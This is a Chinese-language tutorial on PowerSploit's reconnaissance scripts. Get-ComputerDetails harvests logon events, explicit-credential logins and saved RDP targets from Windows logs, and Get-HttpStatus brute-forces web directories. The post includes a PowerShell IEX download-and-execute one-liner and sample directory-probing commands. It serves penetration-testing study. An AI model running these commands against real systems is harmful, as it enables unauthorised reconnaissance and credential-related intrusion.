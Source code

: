 [下载地址](https://github.com/PowerShellMafia/PowerSploit)

#### PowerSploit-recon

##### Recon-Get-ComputerDetails 通过日志获取信息

这个脚本用于从计算机中获取有用的信息。主要获取信息如下

- 显式凭证登录(事件ID 4648)

- 登录事件(事件ID 4624)

- AppLocker日志，查找创建的进程

- 使用PowerShell日志来查找已经执行的PowerShell脚本

- RDP客户端保存服务器，这表明用户通常RDP在哪些服务器

本地加载该脚本，由于脚本并不是完整代码，只是定义了函数，所以需要载入。

1、.+空格+.\Get-ComputerDetails.ps1

2、import-Module .\Get-ComputerDetails.ps1

远程加载

`IEX (New-Object Net.WebClient).DownloadString(“http://127.0.0.1/Get-ComputerDetails.ps1”)`

![image-20200810084519667](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200810084519667.png)

执行结果如下

![image-20200810084756959](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200810084756959.png)

这个脚本一些值的获取需要管理员权限，其次因为有些内容可能查不到所以会报错，脚本主要用了以下几个命令。

Get-eventlog：获取本地计算机或远程计算机上事件日志或事件日志列表中的事件。

Get-WinEvent：从本地和远程计算机上的事件日志和事件跟踪日志文件中获取事件。

Get-ChildItem：获取一个或多个指定位置中的项和子项。位置可以是文件系统目录、注册中心或证书存储区。

![image-20200810085055531](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200810085055531.png)

##### Recon-Get-httpstatus 探测web目录

这个脚本主要用于探测web目录

![image-20200810091554521](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200810091554521.png)

同时在dictionaries目录里也提供了几个字典文件

![image-20200810091900656](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200810091900656.png)

示例

```powershell
C:\PS> Get-HttpStatus -Target www.example.com -Path c:\dictionary.txt | Select-Object {where StatusCode -eq 20*}

C:\PS> Get-HttpStatus -Target www.example.com -Path c:\dictionary.txt -UseSSL
```

